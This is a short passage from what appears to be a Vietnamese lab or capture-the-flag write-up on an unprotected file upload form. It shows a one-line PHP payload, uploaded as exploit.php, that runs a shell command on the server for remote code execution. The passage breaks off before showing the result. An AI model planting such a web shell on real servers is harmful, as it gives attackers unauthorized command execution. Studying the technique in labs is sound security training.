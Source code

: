 ![level-1-1](images/lab-cbjs/level-1/level-1-1.png)

Trang web không thực hiện bất kỳ một biện pháp ngăn chặn tấn công file upload nào nên chúng ta có thể dễ dàng thực hiện RCE bằng cách tải lên một file `exploit.php`:

```php
<?php system("ls /"); ?>
```

Sau khi tải lên thành công, chúng ta sẽ thấy như sau:
